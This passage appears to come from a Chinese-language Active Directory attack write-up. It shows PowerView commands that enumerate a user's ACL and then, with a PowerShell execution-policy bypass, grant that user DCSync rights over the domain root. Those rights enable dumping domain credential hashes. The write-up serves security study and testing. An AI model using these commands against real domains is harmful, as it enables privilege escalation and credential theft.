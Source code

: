 [![image.png](.\图片\08ae7d22-257a-44cc-b5d9-eed727ee3eaf.png)](https://storage.tttang.com/media/attachment/2022/06/25/08ae7d22-257a-44cc-b5d9-eed727ee3eaf.png)
查看用户admin的ACL，我们都知道域用户在域内是否有权限，具体是看用户所具备的ACL

```
Import-Module .\Powerview.ps1
Get-DomainObjectAcl -Identity admin -domain test.com -ResolveGUIDs
```

查询到该用户可对自己有写入权限，那么即可写入DCSync
[![image.png](.\图片\1167cdda-a61a-4346-9ded-2c00e669091f.png)](https://storage.tttang.com/media/attachment/2022/06/25/1167cdda-a61a-4346-9ded-2c00e669091f.png)
powerview写入：

```
powershell.exe -exec bypass -command "&{Import-Module .\PowerView.ps1;Add-DomainObjectAcl -TargetIdentity \"DC=test,DC=com\" -PrincipalIdentity admin -Rights DCSync -Verbose}"
```

